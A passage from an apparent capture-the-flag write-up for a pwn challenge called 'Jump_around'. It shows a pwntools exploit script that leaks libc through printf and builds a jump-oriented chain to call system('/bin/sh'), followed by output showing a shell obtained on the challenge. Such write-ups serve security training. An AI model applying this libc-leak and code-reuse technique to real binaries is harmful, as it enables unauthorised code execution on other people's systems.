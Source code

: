 ```python
		shrooms -= 1
		skip()

	# Make counter 16 to leak libc.
	hop()
	shrooms += 3
	ru('Bonus item: [')
	leaked = int(ru(']')[:-1], 16)
	base = leaked - libc.symbols['printf']
	libc_pop_rax += base
	libc_pop_rdi_jmp_rax += base
	log.info('Leaked printf: 0x{:x}'.format(leaked))
	log.info('Libc base:     0x{:x}'.format(base))

	# Make counter 14 so it becomes 17 with a hop and 20 when enters the jump()
	for i in range(2):
		shrooms -= 1
		skip()

	hop()
	shrooms += 3
	log.info('Total \U0001F344: {}'.format(shrooms))
	payload = junk 

	# Ret2libc
	# payload += p64(0x215bf + base) # pop rdi
	# payload += p64(next(libc.search(b'/bin/sh')) + base)
	# payload += p64(base + 0x8aa) # ret
	# payload += p64(libc.symbols['system'] + base)
	####

	# JOP
	payload += p64(libc_pop_rax)
	payload += p64(libc.symbols['system'] + base)
	payload += p64(libc_pop_rdi_jmp_rax)
	payload += p64(next(libc.search(b'/bin/sh')) + base)
	
	jump(payload)

if __name__ == '__main__':
	pwn()
```

### PoC :crossed_flags:

```sh
Arch:     amd64-64-little
RELRO:    Partial RELRO
Stack:    Canary found
NX:       NX enabled
PIE:      PIE enabled
[*] '/home/w3th4nds/github/pwn/Jump_around/challenge/jump_around'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      PIE enabled
[*] Leaked printf: 0x7f37ffeb6f00
[*] Libc base:     0x7f37ffe52000
[*] Total 🍄: 17
[*] Switching to interactive mode
 $ id
uid=999(ctf) gid=999(ctf) groups=999(ctf)
```